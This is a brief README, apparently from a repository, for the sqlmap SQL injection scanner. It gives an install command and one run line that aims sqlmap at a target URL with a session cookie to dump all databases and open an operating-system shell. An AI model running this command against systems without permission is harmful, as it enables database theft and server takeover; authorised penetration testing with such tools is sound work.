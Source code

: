 # sqlmap
SQL injection scanner

# Install
```bash
sudo apt install sqlmap -yq
```

# running
```bash
sqlmap -u <target_url> --cookie '<cookie info>' -a --dump-all --os-shell
```
